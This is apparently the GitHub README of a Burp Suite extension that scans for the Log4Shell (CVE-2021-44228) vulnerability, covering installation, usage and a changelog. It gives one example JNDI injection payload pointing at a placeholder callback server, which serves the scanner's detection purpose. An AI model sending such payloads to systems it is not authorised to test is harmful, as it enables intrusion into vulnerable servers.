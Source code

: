 <h1 align="center">
  <br>
  Log4J Scanner
</h1>

<h4 align="center">Burp extension to scan Log4Shell (CVE-2021-44228) vulnerability with custom payloads.</h4>

---

<p align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/release/0xDexter0us/Log4J-Scanner.svg">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/downloads/0xDexter0us/Log4J-Scanner/total?label=downloads&logo=github&color=inactive">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
      <img src="https://img.shields.io/github/stars/0xDexter0us/Log4J-Scanner.svg?style=social&label=Stars">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
    <img src="https://img.shields.io/github/followers/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=0xDexter0us">
      <img src="https://img.shields.io/twitter/follow/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://discord.gg/bugbounty">
      <img src="https://img.shields.io/badge/chat-on%20discord-7289da.svg">
  </a>

</p>

---
## Disclaimer
> I am not responsible for your actions, burp-suite freezing, target getting hacked, thermonuclear war, or the current economic crisis caused by you following these directions. YOU are choosing to use this tool, and if you point your finger at me for messing anything up, I will LMAO at you.

---
![Usage Gif](https://github.com/0xDexter0us/Log4J-Scanner/raw/main/images/useage.gif)

## Instructions:
 - Install the extension either from pre-compiled releases or build from source.
 - Disable/Uncheck all other active scanning extensions like active scan++, burp bounty pro, param-miner etc.
 - From Top-Menu open settings of Log4J Scanner.
 - Add your custom payload and save settings.
 - Select your target > right-click > Scan.
 - Select `Scan Configuration` > `Select from library`
 - Only select `Audit checks - extensions only` and hit OK button.

Special thanks to [Silent Signal](https://github.com/silentsignal), instructions and scan configurations are inspired from his extension.


### Important instructions to remember:
 - In your custom payload DO __NOT__ add your collaborator url, just add `[collaborator-server]` as a placeholder,
 - `[collaborator-server` will be replaced by your collaborator server url itself.
 - Example payload: `"${jndi:ldap://[collaborator-server]/a}`


## Download releases
`https://github.com/0xDexter0us/Log4J-Scanner/releases/`

## Build from source
* `./gradlew build fatJar`
* Grab the jar file `build/libs/Log4J-Scanner-x.x.x.jar`

## Installation
1. Download the latest jar from releases or build from source.
2. Add the jar to Burp Suite.



#### If you like the project, please give the repo a star! <3

## Resources

- For passive scanning: `https://github.com/f0ng/log4j2burpscanner`
- For active scanning: `https://github.com/albinowax/ActiveScanPlusPlus` & `https://github.com/silentsignal/burp-log4shell`


## Changelog
**25 December 2021 - v0.2.0**
 - Added Burp Collaborator api.
 - Removed custom scanner.
 - Added Burp scanner api.

**13 December 2021 - v0.1.0**
 - First public release

## Thanks To

* CoreyD97 - https://github.com/CoreyD97
* Silent Signal - https://github.com/silentsignal


### This was coded be me within a day and is an initial release, bug might occur, bug reports, suggestions and pull requests all are welcome :)

-----

[![Join our Discord server!](https://invidget.switchblade.xyz/bugbounty)](http://discord.gg/bugbounty)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Q5Q76ZT6K)
